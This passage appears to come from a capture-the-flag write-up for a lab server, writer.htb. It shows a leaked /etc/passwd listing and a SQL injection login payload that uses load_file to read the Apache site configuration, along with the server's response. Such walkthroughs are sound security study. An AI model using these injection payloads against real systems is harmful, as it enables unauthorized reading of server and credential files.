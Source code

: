 ```
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
postfix:x:113:118::/var/spool/postfix:/usr/sbin/nologin
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
```



## Getting RCE


### Source Code Analysis

Before being able to read the source code of the website, the full path of the file containing the source code must first be discovered. Seeing as the server is running apache2, the `000-default.conf` file in the `/etc/apache2/sites-available` directory, a directory which holds configuration files for Apache virtual hosts, can be leaked to determine this information.  


```
Payload


```
uname='union select 1,load_file('/etc/apache2/sites-available/000-default.conf'),3,4,5,6-- -&password=a
```



```

Response


```
Welcome # Virtual host configuration for writer.htb domain
&lt;VirtualHost *:80&gt;
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
        &lt;Directory /var/www/writer.htb&gt;
                Order allow,deny
                Allow from all
        &lt;/Directory&gt;
        Alias /static /var/www/writer.htb/writer/static
        &lt;Directory /var/www/writer.htb/writer/static/&gt;
                Order allow,deny
                Allow from all
```
